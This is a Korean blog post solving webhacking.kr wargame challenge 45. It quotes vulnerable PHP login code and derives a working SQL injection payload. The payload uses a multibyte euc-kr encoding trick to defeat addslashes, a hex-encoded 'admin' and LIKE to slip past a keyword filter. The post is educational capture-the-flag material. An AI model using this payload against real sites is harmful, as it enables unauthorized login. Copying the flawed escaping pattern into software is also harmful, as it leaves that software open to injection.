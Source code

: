 ```yaml
---
title: "[webhacking.kr] 45번 문제 풀이[sql injection]]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "45번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 45번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152755575-57026a88-2193-49dd-b9b5-5ff03a78f7a5.png)


  ```php
<?php
  if($_GET['id'] && $_GET['pw']){
    $db = dbconnect();
    $_GET['id'] = addslashes($_GET['id']);
    $_GET['pw'] = addslashes($_GET['pw']);
    $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
    if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['id'])) exit();
    if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['pw'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall45 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
    if($result){
      echo "hi {$result['id']}";
      if($result['id'] == "admin") solve(45);
    }
    else echo("Wrong");
  }
?>
  ```


# 문제 풀이
  다음의 sql 문을 인젝션 하여 admin이 나오도록 하면 됩니다.

  ```sql
select id from chall45 where id='{}' and pw=md5('%aa') or id like 0x61646d696e-- ')
  ```

  이번 문제는 addslashes() 함수와 mb_convert_encoding 함수가 같이 쓰이면서 multibyte encoding을 통해서 addslashes함수를 우회할 수 있습니다.

  mb_convert_encoding이 'id'에 쓰였기 때문에 공격지점은 id로 하고, 다음과 같이 injection을 시킬 페이로드 초안을 작성합니다.

  ```sql
  id = %aa' or id='admin'#
  ```

  이제 위의 초안에서 필터링 되는 문자열들을 고려하여 우회하여 줍니다.

  - ```=``` : like 사용으로 우회
  - ```admin``` : 0x61646d696e 로 우회
  
  따라서 다음과 같이 변형시켜서 injection을 시도합니다.

  ```sql
  %aa' or id like 0x61646d696e#
  ```

  위의 값을 인코딩하여 입력하면 다음과 같이 문제가 풀립니다.

  ![image](https://user-images.githubusercontent.com/33647663/152758302-7d3bd5f8-0408-4dfd-8794-a91be9d3321c.png)


 